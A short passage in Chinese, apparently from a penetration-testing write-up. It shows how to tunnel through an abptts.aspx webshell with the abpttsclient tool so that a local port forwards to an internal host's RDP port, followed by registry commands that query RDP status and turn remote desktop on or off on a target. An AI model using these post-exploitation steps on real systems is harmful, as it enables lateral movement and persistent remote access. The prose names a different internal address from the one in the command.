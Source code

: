 ![image.png](assets/1706232584-4af32d2bd628eb025e79c29afddafee0.png)  
依然还是用 abptts 做下转发，即把本地的 389 转到内网 10.0.0.7 机器的 3389 端口上

```php
python2 abpttsclient.py -u "http://192.168.3.13:84/abptts.aspx" -c webshell\config.txt -f 127.0.0.1:389/192.168.3.13:3389
```

查询 rdp 状态

```php
# reg query "hkey_local_machine\system\currentcontrolset\control\terminal server" /v fdenytsconnections
# reg query "hkey_local_machine\system\currentcontrolset\control\terminal server\winstations\rdp-tcp" /v portnumber
```

开启或关闭目标 rdp

```php
# reg add "hkey_local_machine\system\currentcontrolset\control\terminal server" /v fdenytsconnections /t reg_dword /d 0 /f
# reg add "hkey_local_machine\system\currentcontrolset\control\terminal server" /v fdenytsconnections /t reg_dword /d 1 /f
```
